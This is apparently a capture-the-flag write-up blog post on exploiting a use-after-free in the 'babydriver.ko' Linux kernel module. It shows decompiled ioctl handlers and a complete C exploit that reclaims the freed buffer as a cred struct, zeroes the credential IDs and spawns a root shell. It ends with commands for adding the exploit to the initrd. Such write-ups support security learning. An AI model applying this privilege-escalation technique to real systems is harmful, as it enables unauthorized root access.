

# Another easy Linux kernel exploitation

## Abstract

In this blog post, I dive deep into the world of Linux kernel exploitation, with a focus on the `babydriver.ko` kernel module. I'll take you on a journey through the process of reverse engineering the driver, particularly honing in on the ioctl interface and pinpointing a use-after-free vulnerability. I'll guide you through the steps involved in developing an exploit, which includes memory allocation and manipulation to achieve unauthorized access. Additionally, I'll walk you through the process of inserting the exploit into the initrd filesystem, ultimately leading to the coveted prize of root access. This blog post offers an exploration of the intriguing landscape of kernel exploitation, by solving this easy rated ctf challenge!

## Content

- [Another easy Linux kernel exploitation](#another-easy-linux-kernel-exploitation)
  - [Abstract](#abstract)
  - [Content](#content)
  - [Introduction](#introduction)
  - [Driver reverse](#driver-reverse)
    - [babydriver\_init and babydriver\_exit](#babydriver_init-and-babydriver_exit)
    - [Ioctl reverse engineering](#ioctl-reverse-engineering)
  - [Developp the exploit](#developp-the-exploit)
  - [Insert the exploit](#insert-the-exploit)
  - [Conclusion](#conclusion)

## Introduction

This time around, I'm going to work with the `babydriver.ko` kernel module. The initial phase involves reverse engineering the driver and crafting an exploit based on its vulnerabilities.

## Driver reverse

The driver is packaged in an unstripped ELF file, so reverse engineering it shouldn't be too challenging since all the symbols and structure definitions are intact. I'll provide you with an overview of how the driver operates.

### babydriver_init and babydriver_exit

These functions serve as the kernel module's constructor and destructor. In the constructor, there is an allocation for an [ioctl](https://en.wikipedia.org/wiki/Ioctl), and in the destructor, this ioctl is deallocated.

### Ioctl reverse engineering

The driver is vulnerable through the ioctl interface, so our attention will be directed towards the functions associated with it. Their is 5 callbacks associated to the ioctl : open, relase, read, write, ioctl. We will analyze the ghidra decompiled functions.

- open : allocate a 0x40 sized buffer
```c
int babyopen(inode *inode,file *filp) {
  babydev_struct.device_buf = (char *)kmem_cache_alloc_trace(_DAT_001010a8,0x24000c0,0x40);
  babydev_struct.device_buf_len = 0x40;
  printk("device open\n");
  return 0;
}
```

- release : free the allocated buffer (without setting it to NULL...)
```c
int babyrelease(inode *inode,file *filp) {
  kfree(babydev_struct.device_buf);
  printk("device release\n");
  return 0;
}
```

- read : copy from buffer to user
```c
ssize_t babyread(file *filp,char *buffer,size_t length,loff_t *offset) {
  size_t sVar1;
  
  if (babydev_struct.device_buf != (char *)0x0) {
    sVar1 = 0xfffffffffffffffe;
    if (length < babydev_struct.device_buf_len) {
      _copy_to_user(buffer,babydev_struct.device_buf,length);
      sVar1 = length;
    }
    return sVar1;
  }
  return -1;
}
```

- write : copy from user to buffer
```c
ssize_t babywrite(file *filp,char *buffer,size_t length,loff_t *offset) {
  size_t sVar1;
  
  if (babydev_struct.device_buf != (char *)0x0) {
    sVar1 = 0xfffffffffffffffe;
    if (length < babydev_struct.device_buf_len) {
      _copy_from_user(babydev_struct.device_buf,buffer,length);
      sVar1 = length;
    }
    return sVar1;
  }
  return -1;
}
```

- ioctl : allocate a buffer with a user controled size
```c
long babyioctl(file *filp,uint command,ulong arg) {
  long lVar1;
  
  if (command == 0x10001) {
    kfree(babydev_struct.device_buf);
    babydev_struct.device_buf = (char *)__kmalloc(arg,0x24000c0);
    babydev_struct.device_buf_len = arg;
    printk("alloc done\n");
    lVar1 = 0;
  }
  else {
    printk(&DAT_0010031a,arg);
    lVar1 = -0x16;
  }
  return lVar1;
}
```

As you noticed in my comments, the identified bug is a [use-after-free](https://en.wikipedia.org/wiki/Dangling_pointer) issue. The other functions are properly checking the bounds. Now, let's outline our exploit plan.

## Developp the exploit

The initial idea I had is to allocate a structure of the same size as the `cred` struct, release it, and then populate it using a second instance of the ioctl. The following schema explain it better : 



And here is my exploit :

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define BABYDRIVER_DEVICE_NAME "/dev/babydev"
#define BABYDRIVER_ALLOC_COMMAND 0x10001
#define CRED_STRUCT_SIZE 168

char CredStruct[CRED_STRUCT_SIZE];

int main(void) {
    // Create two file descriptors for the device
    int baby1 = open(BABYDRIVER_DEVICE_NAME, O_RDWR);
    if(baby1 < 0) {
        return -1;
    }
    
    int baby2 = open(BABYDRIVER_DEVICE_NAME, O_RDWR);
    if(baby2 < 0) {
        close(baby1);
        return -1;
    }

    // Allocate a struct of the same size that cred struct
    ioctl(baby1, BABYDRIVER_ALLOC_COMMAND, CRED_STRUCT_SIZE);
    // Release baby1 to kfree the allocated struct
    close(baby1);

    // Fork to create a new process with a newly allocated cred struct using the previously kfree memory area
    pid_t pid = fork();

    if(pid < 0) {
        puts("Fork failed...");
    } else if(pid == 0) {
        for(int index=0; index<9*4; index++) {
            CredStruct[index] = 0;
        }        
        // Modify our creds
        write(baby2, CredStruct, 9*4);
        printf("Id is now %d\n", geteuid());
        system("/bin/sh");
    } else {
        while(1) {}
    }

    close(baby2);
    return 0;
}
```

## Insert the exploit

The final step is to insert the exploit into our initrd filesystem. To accomplish this, we can use the following commands:

```bash
mkdir initrd_data && cd initrd_data
cat ../rootfs.cpio | cpio -idmv
cp <path to exploit> .
find . | cpio --quiet -o -H newc > ../newrootfs.cpio
```

With everything in place, we can now utilize `newrootfs.cpio` to boot and execute our exploit, ultimately granting us root access.

## Conclusion

In this second challenge, I had the opportunity to exploit a Kernel Use-After-Free (kUAF) vulnerability. My exploit plan was straightforward, but I also came across some write-ups that utilized more advanced techniques, such as leveraging tty struct callbacks. I hope you found it interesting to read.